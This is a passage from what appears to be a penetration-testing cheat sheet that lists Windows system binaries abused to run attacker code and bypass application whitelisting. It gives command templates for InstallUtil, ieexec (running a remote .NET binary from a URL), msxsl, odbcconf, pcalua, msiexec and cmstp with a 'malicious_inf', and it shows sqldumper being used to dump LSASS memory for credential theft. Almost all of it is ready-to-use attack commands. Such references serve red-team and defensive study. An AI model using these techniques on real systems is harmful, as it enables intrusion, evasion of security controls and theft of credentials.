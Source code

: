 Example located here:
[*https://gist.github.com/xenoscr/db37c65f7ffcc3b847c5aa81d7f42290*](https://gist.github.com/xenoscr/db37c65f7ffcc3b847c5aa81d7f42290)

```
InstallUtil.exe /logfile= /LogToConsole=false /U **&lt;custom\_dll&gt;**
```

<span id="anchor-337"></span>Run Remote .NET Code with IEEXEC.EXE

```
ieexec.exe **&lt;url\_to\_DotNet\_binary&gt;**
```

<span id="anchor-338"></span>Run Commands with msxsl.exe

Create XML files to execute JScript. A write up is located here:

```
msxsl.exe customers.xml script.xsl
```

<span id="anchor-339"></span>Run Commands with odbcconf.exe

Build a C\# project that will be built as a DLL then registered and run
with odbcconf.exe:
[*https://gist.github.com/xenoscr/b91638bc6c5c3318adac7488f257b7ce*](https://gist.github.com/xenoscr/b91638bc6c5c3318adac7488f257b7ce)

```
odbcconf.exe /f my.rsp
```

<span id="anchor-340"></span>Dump LSASS Process Memory with
sqldumper.exe

```
sqldumper.exe **&lt;lsass\_pid&gt;** 0 0x0110:40
```

<span id="anchor-341"></span>Run Commands with pcalua.exe

```
pcalua.exe -a **&lt;command&gt;**
```

<span id="anchor-342"></span>Running Commands with msiexec.exe

-   [*https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/*](https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/)

```
msiexec /quiet /i **&lt;msi\_with\_msi\_or\_png\_extention&gt;**
```

<span id="anchor-343"></span>Running Commands with cmstp.exe

-   [*https://msitpros.com/?p=3960*](https://msitpros.com/?p=3960)
-   [*https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e*](https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e)

```
cmstp.exe /ni /s **&lt;malicious\_inf&gt;**
```
